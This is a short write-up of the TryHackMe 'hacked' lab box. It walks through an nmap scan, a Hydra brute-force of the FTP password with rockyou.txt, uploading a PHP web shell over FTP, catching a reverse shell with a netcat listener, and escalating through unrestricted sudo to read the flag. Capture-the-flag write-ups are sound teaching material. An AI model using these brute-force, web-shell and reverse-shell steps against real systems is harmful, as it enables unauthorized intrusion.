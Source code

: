 ```yaml
---
title: Try Hack Me - hacked
date: 2021-03-20 16:32 +0300
categories: [Try Hack Me]
tags: [linux,hydra]     # TAG names should always be lowercase
---
```


# Welcome

Hey there! Glad to see you.

I just want to create write up for this easy peasy japanesey box for fun.

# Nmap

Scanning with Nmap :-)! Just for sure.

<pre class="highlighter-rouge highlight">
Nmap scan report for 10.10.33.97
Host is up (0.072s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
</pre>


# Hydra

As we could see on pcap file the attacker did brute force with Hydra. Let's repeat.

<pre>
hydra -l jenny -P /opt/rockyou.txt ftp://10.10.33.97
==========================================================================================================================
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-24 15:29:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.33.97:21/
[21][ftp] host: 10.10.33.97   login: jenny   password: *********
1 of 1 target successfully completed, 1 valid password found
</pre>

We found the changed password. Great!

# FTP

On FTP service we can see <code class="language-plaintext highlighter-rouge">shell.php</code> file. Let's upload our own shell.

<pre>
put myshell.php
chmod 777 myshell.php
</pre>


# Web Page

Turn on listener

<pre>nc -lvnp 1234</pre>

On the browser run our shell 

<pre> 10.10.33.97/myshell.php </pre>

and we get the connection.


# Privilage Escalation
Let's change to user Jenny and see what she can do
<pre>
sudo jenny
Password: *********
sudo -l
Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
</pre>

Waw. No protection. Let's cat the flag.txt file

<pre>
sudo -i
cat /root/Reptile/flag.txt
</pre>



